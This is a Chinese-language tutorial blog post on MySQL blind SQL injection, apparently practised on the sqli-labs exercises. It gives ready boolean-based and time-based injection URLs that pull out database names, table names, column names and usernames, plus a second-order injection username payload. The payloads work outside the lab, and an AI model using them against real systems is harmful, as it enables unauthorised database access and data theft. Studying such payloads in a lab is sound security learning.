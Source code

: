 # 07-mysql盲注




# SQL测试-基于 布尔,延时 盲注

>场景：无回显，并且没有报错和其他显示
>能用布尔就不用延迟

**几个相关函数：**
`regexp`       regexp '^xiaodi[a-z]' 匹配xiaodi及xiaodi...等
`if`       if(条件,5,0) 条件成立 返回5 反之 返回0
`sleep`    sleep(5) SQL语句延时执行5秒
`mid`    mid(a,b,c)从位置 b 开始， 截取 a 字符串的 c 位
`substr`   substr(a,b,c)从 b 位置开始， 截取字符串 a 的 c 长度
`left`    left(database(),1)，database()显示数据库名称， left(a,b)从左侧截取 a 的前 b 位
`length`    length(database())=8，判断数据库database()名的长度
`ord`=`ascii`     ascii(x)=101，判断x的ascii码是否等于101，即email中的字母e
`IFNULL()`  函数用于判断第一个表达式是否为 NULL，如果为 NULL 则返回第二个参数的值，如果不为 NULL 则返回第一个参数的值。
`CAST()`和`CONVERT()`函数可用来获取一个类型的值，并产生另一个类型的值。两者具体的语法如下：`CAST(value as type);`        `CONVERT(value, type);`

#### 基于布尔(逻辑)盲注

Less-5
用burp批量跑
**0x01 获取`数据库`名操作Payload：**     left()
获取数据库名长度值
`?id=1' and length(database())=8 %23`

获取数据库名第一位值
`?id=1' and left(database(),1)='s' %23`     等于
`?id=1' and left(database(),1)>'a' %23`     大于

获取数据库名第二位值
`?id=1' and left(database(),2) > 'sa' %23`
`?id=1' and left(database(),2) = 'se' %23`



**0x02 获取`表名`操作Payload：**     ascii(substr())
获取表名第一个第一位的值（下面这个是获取表名中第一个表，的第二位的值）
`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101 %23`
获取表名第一个第二位的值
`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=101 %23`
获取表名第二个第一位的值
`?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=101 %23`

用burp批量跑(最后一种模式，设置两个变量  limit $0, 1), $1,1))=115)   



**0x03 获取`列名`操作Payload：**    regxp
获取列名regexp 查询users表第一个列名是否有us...列名
`?id=1' and 1=(select 1 from information_schema.columns where table_name='users' and table_name regexp '^us[a-z]' limit 0,1)--+`



**0x04 获取`数据`操作Payload：**    ord(mid())
获取数据 security.users表中username列名的第一个第一位
`?id=1' and ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER BY id LIMIT 0,1),1,1))=68--+`
(获取username中的第一行的第一个字符的ascii，与68进行比较)




#### 基于延时盲注

**0x01 获取数据库名操作Payload：**     if(条件，成立返回值，不成立的返回值)
获取数据库名第一个第一位
`?id=1' and if(ascii(substr(database(),1,1))=115,sleep(5),1)--+`
可以把sleep放外面：and sleep(if 'x'='yx, 5, 0)

**0x02 获取表名操作Payload：**
获取列名第一个第一位
`?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100,sleep(5),1)--+`

>后续参考：https://www.cnblogs.com/xishaonian/p/6113965.html

-----



## SQL二次注入测试

**案例测试**：
less-24 及实际举例
25-30关卡好多是二次注入

> 自己练习

**应用范围：**
我们注册一个用户后，然后进入用户中心，对应的url地址： xxx.php?user=xiaodi
如果把注册的用户名改为: `xx' union select 1,2,3 -- `  
总之: 将注入语句让web写入到数据库中，web在调用数据库中数据查询时，就触发了...



###### 原理

<img src="https://image.geoer.cn/%E4%BA%8C%E6%AC%A1%E6%B3%A8%E5%85%A5.png"></img>



#### mybatis以及预编译如何防止SQL注入


>参考：https://www.cnblogs.com/haojun/p/10682407.html https://www.cnblogs.com/yangzailu/p/11381765.html

---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/07-mysql%E7%9B%B2%E6%B3%A8/  

